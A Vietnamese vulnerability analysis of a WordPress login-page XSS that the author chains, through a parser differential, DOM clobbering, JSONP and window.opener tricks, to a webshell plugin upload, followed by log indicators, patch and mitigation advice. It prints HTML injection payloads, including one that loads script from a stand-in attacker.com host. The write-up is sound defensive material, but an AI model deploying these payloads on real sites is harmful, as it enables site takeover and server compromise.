



**CVE-2026-64638** bắt đầu từ một HTML sink nhỏ trên `wp-login.php`: username không tồn tại được đưa vào thông báo lỗi mà chưa qua `esc_html()`. Tác động của lỗi được khuếch đại bởi sự khác biệt giữa các parser, JavaScript `user-profile` chạy trong login context, DOM clobbering và REST JSONP.


`XSS2Shell` (CVE-2026-64638) không phải một lỗi XSS đơn lẻ. Đây là chuỗi khai thác kết hợp tinh vi giữa nhiều kỹ thuật client-side và cơ chế nội bộ của WordPress:

- **CVE-2026-64638** — Reflected XSS trước đăng nhập tại `wp-login.php` do thiếu escape ngữ cảnh HTML cho thông báo lỗi tên đăng nhập không tồn tại.
- **Parser Differential** — Xung đột bộ lọc giữa `wp_strip_all_tags()` và `wp_kses_post()` giúp lọt HTML markup dị biệt vào DOM mà không cần dùng đến thẻ `<script>`.
- **DOM Clobbering & REST JSONP** — Lạm dụng script `user-profile.js` bị load nhầm ở trang login để cướp biến toàn cục `ajaxurl`, ép jQuery nạp và thực thi script độc hại qua callback JSONP.
- **Same-Origin Method Execution (SOME)** — Điều khiển DOM từ cửa sổ XSS sang cửa sổ Admin đang đăng nhập qua `window.opener` để tự động phê duyệt Application Password, từ đó gọi REST API upload plugin chứa webshell (RCE).

Trên WordPress **4.7–7.0.2**, kẻ tấn công không cần tài khoản có thể đạt RCE dưới quyền web server khi quản trị viên tương tác (click link). WordPress xác nhận và vá lỗ hổng trong [GHSA-52p2-r8wf-jcrf](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-52p2-r8wf-jcrf); bản ghi CVE chấm điểm CVSS **8.9 High**.

| Thuộc tính | Kết quả đã xác minh |
| --- | --- |
| Thành phần | WordPress Core (Màn hình đăng nhập) |
| Entry point | Tham số đăng nhập tại `wp-login.php` |
| Điều kiện full chain | Cần người dùng có quyền Administrator tương tác (click link) |
| Phiên bản bị ảnh hưởng | 4.7–7.0.2 (Đã có bản vá backport cho tất cả các nhánh cũ) |
| Bản sửa | 7.0.3 (và các phiên bản point release tương ứng của nhánh cũ) |
| Tác động cuối | Cấp Application Password admin => Upload plugin PHP => RCE |

tiếp theo cùng xem chi tiết từng bước khai thác và cách bản vá khắc phục lỗ hổng này.

## Mô hình xử lý đúng của Login Error và Script Enqueue

Màn hình đăng nhập (`wp-login.php`) có nhiệm vụ xác thực người dùng và hiển thị thông báo lỗi khi đăng nhập thất bại. Đồng thời, nó enqueue một số script cần thiết cho giao diện.

Luồng đúng phải tuân thủ trình tự sau:




Ta có thể thấy có hai điều đảm bảo tính an toàn ở đây là:

> 1. mọi dữ liệu do người dùng nhập vào khi hiển thị lại trên HTML bắt buộc phải đi qua hàm escape theo đúng ngữ cảnh (`esc_html()`);
> 2. các script client-side (`user-profile.js`) không được phép tự ý thực thi logic nhạy cảm khi các DOM element phục vụ nó không tồn tại trên trang.

CVE-2026-64638 đã phá vỡ cả hai ý trên này.

## CVE-2026-64638: Lỗi thiếu escape tại màn hình đăng nhập

### Code trước bản vá

Trong WordPress 7.0.2, khi người dùng nhập tên đăng nhập không tồn tại, hàm `wp_authenticate_username_password()` trả về đối tượng `WP_Error` bằng cách đưa trực tiếp biến `$username` vào thông báo:

```php
return new WP_Error(
    'invalid_username',
    sprintf(
        __( 'The username <strong>%s</strong> is not registered.' ),
        $username
    )
);
```
*(Kiểm tra trực tiếp tại [WordPress 7.0.2, `wp-includes/user.php` dòng 181–191](https://github.com/WordPress/wordpress-develop/blob/7.0.2/src/wp-includes/user.php#L181-L191))*

Dù `$username` đã đi qua `sanitize_user()`, hàm này chỉ loại bỏ các ký tự không hợp lệ cho username (như khoảng trắng thừa, ký tự điều khiển), hoàn toàn **không mã hóa HTML**. Khi thông báo lỗi này được in ra giao diện `wp-login.php`, trình duyệt sẽ diễn giải mọi markup có trong `$username` thành thẻ HTML thực sự.

### Bản vá chứng minh giả thuyết (Proof by patch)

Trong WordPress 7.0.3, lập trình viên đã bao bọc `$username` trong `esc_html()`:

```diff
- $username
+ esc_html( $username )
```
*(Xem [source WordPress 7.0.3, `user.php`](https://github.com/WordPress/wordpress-develop/blob/7.0.3/src/wp-includes/user.php#L181-L191))*

---

## Parser Differential: Vượt qua các bộ lọc HTML của Core

Nếu chỉ chèn thẻ chuẩn như `<script>alert(1)</script>`, bộ lọc của WordPress hoặc WAF sẽ phát hiện và chặn ngay lập tức. Để lọt được mã HTML độc hại vào trang `wp-login.php`, kẻ tấn công lợi dụng **Parser Differential** — sự xung đột trong cách hiểu và xử lý chuỗi HTML giữa các bộ phân tích cú pháp (parser) khác nhau.

### 1. Bản chất xung đột giữa 3 lớp Parser

Trong luồng xử lý này một chuỗi dữ liệu đầu vào sẽ lần lượt đi qua **3 lớp parser** với các quy tắc đọc hoàn toàn khác nhau:

| Lớp Parser | Cơ chế  xử lý kỹ thuật | Cách nhìn nhận chuỗi HTML |
| :--- | :--- | :--- |
| **Lớp 1: `wp_strip_all_tags()`** | Sử dụng hàm `strip_tags()` mặc định của PHP. | Chỉ nhận diện là thẻ HTML khi thấy dấu `<` đi liền kề ngay sau đó là một chữ cái (`[a-zA-Z]`). |
| **Lớp 2: `wp_kses_post()`** | Sử dụng bộ lọc KSES parser của WordPress (dựa trên Whitelist). | Linh hoạt hơn: Tự động chuẩn hóa (trim) khoảng trắng thừa sau dấu `<` và kiểm tra thẻ trong danh sách an toàn. |
| **Lớp 3: Trình duyệt (Browser)** | Tuân theo chuẩn HTML5 Parser hiện đại (Chrome/Firefox/Edge). | Tự động loại bỏ khoảng trắng thừa sau `<` để dựng phần tử DOM hoàn chỉnh. |

---

### 2. Hành trình của Payload qua 3 lớp xử lý

Kẻ tấn công sử dụng **payload chứa khoảng trắng ngay sau dấu `<`** (ví dụ dùng thẻ `<area>`):

```html
< area id="ajaxurl" href="[https://attacker.com/evil.js](https://attacker.com/evil.js)">
```

Hãy nhìn cách payload này đi qua 3 lớp parser:

1. Tại Lớp 1 (`wp_strip_all_tags`): Khi hàm `strip_tags()` của PHP quét chuỗi `< area`, nó thấy sau dấu `<` là một khoảng trắng chứ không phải chữ cái [a-zA-Z]. `strip_tags()` kết luận đây chỉ là phép so sánh toán học hoặc văn bản thông thường (như `5 < 10`) nên cho qua toàn bộ chuỗi mà không xóa.

2. Tại Lớp 2 (wp_kses_post): Bộ lọc KSES của WordPress lại xử lý khoảng trắng linh hoạt hơn. Khi nhận chuỗi `< area`, KSES chuẩn hóa bỏ khoảng trắng đầu và nhận diện đây là thẻ `<area>`. Do thẻ `<area>` cùng 2 thuộc tính id và href đều nằm trong danh sách được phép (allowlist) của KSES, nó đánh giá chuỗi này an toàn và tiếp tục cho qua.

3. Tại Lớp 3 (Trình duyệt của nạn nhân): Trình duyệt nhận chuỗi `< area ...>`. Theo chuẩn HTML5 Parser, trình duyệt tự động bỏ qua khoảng trắng thừa sau dấu `<` và dựng nên một phần tử DOM hoàn chỉnh trên trang login:

```html
<area id="ajaxurl" href="[https://attacker.com/evil.js](https://attacker.com/evil.js)">
```
Đến đây ta đã có cái nhìn khá rõ ràng về cách một payload HTML được lọt qua các bộ lọc của WordPress và xuất hiện trong DOM của trang login mà không bị chặn.

Nhưng sẽ nhiều người sẽ thấy lạ khi lại cố  chèn thẻ có thuộc tính `id="ajaxurl"`? thì ta sẽ đi phân tích 1 chút về lý do cho điều này ở góc nhìn của kẻ tấn công

### 3. Tại sao lại cố chèn thẻ có id="ajaxurl"?
Sau khi dùng Parser Differential chèn được các thẻ HTML vào trang wp-login.php, ta cần tìm cách biến các thẻ này thành mã chạy (JS execution).Ta lợi dụng việc WordPress enqueue file user-profile.js vào trang login, trong file này có đoạn code tự động gửi request AJAX:
```javascript
$.post( ajaxurl, { action: 'save-user-color-scheme', ... });
```
- Ở các trang quản trị (`wp-admin`), WordPress sẽ dùng hàm `wp_localize_script()` để định nghĩa biến toàn cục `ajaxurl = '/wp-admin/admin-ajax.php'`.
- Tuy nhiên, trên trang `wp-login.php`, WordPress chưa bao giờ định nghĩa biến `ajaxurl`. Biến này hoàn toàn là `undefined`.
Trong JavaScript, khi truy cập một biến toàn cục chưa được khai báo (`ajaxurl`), engine sẽ tìm thuộc tính tương ứng trên đối tượng window (`window.ajaxurl`). Đây chính là điểm yếu ngữ cảnh mở đường cho kỹ thuật DOM Clobbering tiếp theo mà mình sẽ nhắc đến.

---

## DOM Clobbering: Biến DOM tĩnh thành luồng thực thi tự động

Sau khi đưa được các thẻ HTML (payload) qua bộ lọc nhờ Parser Differential, mục tiêu tiếp theo của kẻ tấn công là biến các thẻ HTML tĩnh này thành lệnh gửi request thực sự mà không cần người dùng tương tác.

Để làm được điều này, chuỗi exploit lạm dụng script `wp-admin/js/user-profile.js` — một file JS mặc định được WordPress nạp trên toàn bộ trang `wp-login.php` như ta đã nói ở trên.

### 1. Phân tích Gadget trong user-profile.js
Trong file user-profile.js, có hai đoạn mã xử lý sự kiện (event handler) nguy hiểm khi chạy trên ngữ cảnh trang Login:

#### Gadget 1: Tự động phát sự kiện Click (Auto-trigger)
script có đoạn mã tìm nút bấm tạo mật khẩu và tự động kích hoạt sự kiện click ngay khi DOM sẵn sàng (`document.ready`):

```JavaScript
$('.reset-pass-submit').find('.wp-generate-pw').trigger('click');
```
Đoạn code này vốn dành cho màn hình Đổi mật khẩu (`action=resetpass`). Tuy nhiên trên trang Đăng nhập thông thường, hai class `.reset-pass-submit` và `.wp-generate-pw` không tồn tại.

Source gốc nằm tại [`user-profile.js` của WordPress 7.0.2](https://github.com/WordPress/wordpress-develop/blob/7.0.2/src/js/_enqueues/admin/user-profile.js#L619-L623).

#### Gadget 2: Xử lý sự kiện Click chọn màu (Delegated Event Handler)
Script lắng nghe sự kiện click trên #color-picker cho các phần tử con mang class .color-option:

```JavaScript
$('#color-picker').on('click', '.color-option', function() {
    var user_id = $('input#user_id').val();
    var new_user_id = $('input[name="checkuser_id"]').val();

    if ( user_id === new_user_id ) {
        $.post( ajaxurl, {
            action: 'save-user-color-scheme',
            color_scheme: $(this).children('.color-palette').data('color-scheme'),
            nonce: $('#color-nonce').val()
        });
    }
});
```
Lỗi logic trong câu lệnh `if`:
Trên trang profile thực sự, hai ô input `#user_id` và `checkuser_id` sẽ chứa ID người dùng. Nhưng trên trang `wp-login.php`, cả hai ô input này đều không tồn tại.
jQuery gọi `.val()` trên phần tử không tồn tại sẽ trả về  `undefined`.
Phép so sánh: `undefined === undefined` trả về  `true`!
 
Mục đích bảo mật của câu lệnh `if` bị vô hiệu hóa hoàn toàn.

### 2. Bản chất kỹ thuật DOM Clobbering với `ajaxurl`

Sau khi vượt qua câu lệnh `if` kiểm tra ID, script tiếp tục gọi: `$.post( ajaxurl, ... )`. 

Quá trình **DOM Clobbering** diễn ra qua 3 mắt xích kỹ thuật:

1. **Context Gap (Thiếu hụt biến toàn cục):** 
   Trên trang `wp-login.php`, biến `ajaxurl` không được khởi tạo (vốn thường được bơm qua `wp_localize_script()` ở trang quản trị).

2. **HTML Named Properties Access:** 
   Theo quy chuẩn HTML Specification, các phần tử DOM có thuộc tính `id` sẽ tự động được gán làm thuộc tính đại diện trên đối tượng toàn cục `window`. Khi JavaScript truy cập biến `ajaxurl` nhưng không tìm thấy khai báo ở local/global scope, runtime sẽ fallback về tìm kiếm `window.ajaxurl`.

3. **String Conversion của `HTMLAreaElement`:**
   * Khi kẻ tấn công chèn thẻ `<area id="ajaxurl" href="...">`, `window.ajaxurl` sẽ trỏ tới đối tượng `HTMLAreaElement`.
   * Hàm `$.post()` của jQuery kỳ vọng tham số đường dẫn đầu tiên là một chuỗi (String). Khi truyền một Object vào, jQuery sẽ kích hoạt phép ép kiểu ngầm định (type coercion) bằng cách gọi phương thức `.toString()`.
   * Vì `HTMLAreaElement` kế thừa interface `HTMLHyperlinkElementUtils`, phương thức `.toString()` của nó được định nghĩa để trả về **chính xác giá trị chứa trong thuộc tính `href`**.

### 3. Payload HTML hoàn chỉnh & Luồng tự động kích hoạt
Kẻ tấn công đưa vào tham số username 3 phần tử DOM:
```html
< area id=ajaxurl href="/?rest_route=/&_method=GET&_jsonp=alert&_envelope=1">
< div id=color-picker class=reset-pass-submit>
< button class="wp-generate-pw color-option">X
```

Luồng thực thi diễn ra hoàn toàn tự động (Zero-Click):

Kẻ tấn công không hề chạy một dòng JavaScript nào của riêng mình ở bước này. Họ chỉ dùng Parser Differential để dựng sẵn khung DOM, sau đó mượn chính mã JavaScript mặc định của WordPress (`user-profile.js`) để kích hoạt request HTTP theo ý muốn.

---

## Phạm vi ảnh hưởng: Tách biệt XSS và chuỗi RCE

| Phiên bản | Trạng thái | Ghi chú |
| --- | --- | --- |
| **< 4.7** | Không bị ảnh hưởng | REST API chưa được tích hợp mặc định vào Core |
| **4.7–7.0.2** | Bị ảnh hưởng full chain | Chứa đầy đủ Reflected XSS và các gadget client-side |
| **7.0.3+** | Đã được vá | Đã vá `esc_html()` tại `wp-includes/user.php` |
| **6.9.6+, 6.8.7+...** | Đã được vá | Các bản vá backport cho các nhánh phiên bản cũ |

## Đánh giá mức độ nghiêm trọng

| Định danh | CVSS v4.0 | Ý nghĩa |
| --- | --- | --- |
| **CVE-2026-64638** | **8.9 High** | Attack Vector: Network, Attack Complexity: High (cần môi trường & timing), User Interaction: Required (Admin click link), Scope: Unchanged, High Confidentiality/Integrity/Availability. |

Dù CVSS yêu cầu tương tác người dùng (`UI:R`), độ nghiêm trọng thực tế của chuỗi này cực kỳ cao vì nó cho phép một kẻ tấn công không có tài khoản (pre-auth) biến một cú click của Admin thành toàn quyền kiểm soát máy chủ web (Full Server Compromise).

---

## Phát hiện và điều tra dấu vết (Forensics)

### Dấu hiệu ở lớp HTTP (Access Logs)


Hãy chủ động tìm kiếm trong log web các chuỗi truy vấn có đặc điểm:

1. **POST tới `wp-login.php`:** Tham số `log` chứa các ký tự lạ hoặc thẻ HTML dở dang như `<a/id=`, `href=`.
2. **REST API JSONP Request:** Xuất hiện request GET/POST tới `/wp-json/` chứa tham số `_jsonp=` từ các trang công cộng.
3. **Tạo Application Password bất thường:** Request POST tới `/wp-json/wp/v2/users/me/application-passwords` hoặc lượt truy cập tới `authorize-application.php` với tham số `success_url` lạ.
4. **Upload Plugin qua API:** Request POST upload file ZIP tới REST API endpoint ngay sau thời điểm nghi vấn.

### Dấu hiệu trên Filesystem & Database

- Xuất hiện file `.php` hoặc thư mục lạ trong `wp-content/plugins/` hoặc `wp-content/uploads/`.
- Trong database (bảng `wp_usermeta`), xuất hiện các record `user_application_passwords` mới được tạo mà quản trị viên không hề thực hiện thủ công.

---

## Khắc phục

### 1. Cập nhật Core

Cập nhật WordPress lên phiên bản **7.0.3** hoặc các bản point release mới nhất của nhánh tương ứng:

```bash
wp core version
wp core update
wp core verify-checksums
```

### 2. Biện pháp khắc phục tạm thời (Mitigation)

Nếu chưa thể cập nhật ngay lập tức:

1. **Vô hiệu hóa Application Passwords:** Thêm filter sau vào `functions.php` của theme để chặn việc tạo API key qua giao diện web:
   ```php
   add_filter( 'wp_is_application_passwords_supported', '__return_false' );
   ```
2. **Khóa chức năng chỉnh sửa/cài đặt file (`DISALLOW_FILE_MODS`):** Thêm vào `wp-config.php` để ngăn kẻ tấn công upload plugin PHP kể cả khi lấy được quyền Admin:
   ```php
   define( 'DISALLOW_FILE_MODS', true );
   ```

---

## Bài học thiết kế hệ thống

`XSS2Shell` là minh chứng điển hình cho thấy một lỗ hổng nhỏ ở UI có thể gây sụp đổ toàn bộ hệ thống khi các giả định bảo mật (Trust Boundaries) bị phá vỡ:

- **Sanitization vs. Contextual Escaping:** `sanitize_user()` làm sạch dữ liệu đầu vào nhưng không thể thay thế cho `esc_html()` ở đầu ra. Dữ liệu hiển thị ở đâu bắt buộc phải escape theo đúng ngữ cảnh ở đó.
- **Biến toàn cục ngầm định (Implicit Globals):** Việc JS tin tưởng vào các biến toàn cục chưa được khởi tạo (`ajaxurl`) mở đường cho DOM Clobbering thông qua HTML Named Properties.
- **Tải Script sai ngữ cảnh (Enqueue Over-scoping):** Không bao giờ load các file JS phức tạp (`user-profile.js`) ở những trang công cộng không cần đến chúng.
- **Thiếu Re-authentication cho hành vi nhạy cảm:** Các thao tác cấp quyền sinh tử như tạo Application Password hay cài Plugin không nên phụ thuộc hoàn toàn vào phiên làm việc trình duyệt hiện tại mà phải yêu cầu Admin nhập lại mật khẩu (Re-auth).


## Kết luận

Bằng chứng từ source code và phân tích runtime cho phép kết luận rõ:

1. CVE-2026-64638 bỏ sót `esc_html()` khi hiển thị lỗi tên đăng nhập ở `wp-login.php`.
2. Parser Differential giúp chèn thẻ `<a id="ajaxurl">` vượt qua bộ lọc Core.
3. `user-profile.js` bị load sai vị trí và dính lỗi `undefined === undefined` kích hoạt request AJAX.
4. DOM Clobbering + JSONP ép jQuery thực thi đoạn code JS độc hại.
5. SOME qua `window.opener` cướp Application Password của Admin và upload plugin PHP đạt RCE.


Với đội ngũ vận hành: **Xác minh phiên bản → Nâng cấp lên 7.0.3 → Tắt App Passwords / Khóa File Mods → Kiểm tra log**. Với lập trình viên: Bài học lớn nhất là không bao giờ tin tưởng vào biến toàn cục client-side và luôn escape dữ liệu đúng ngữ cảnh tại sink.


## Tài liệu tham khảo

- [WordPress 7.0.3 Security Release](https://wordpress.org/news/2026/08/wordpress-7-0-3-release/)
- [GHSA-52p2-r8wf-jcrf / CVE-2026-64638](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-52p2-r8wf-jcrf)
- [Pwn.ai: XSS2Shell Technical Analysis](https://pwn.ai/blog/xss2shell)

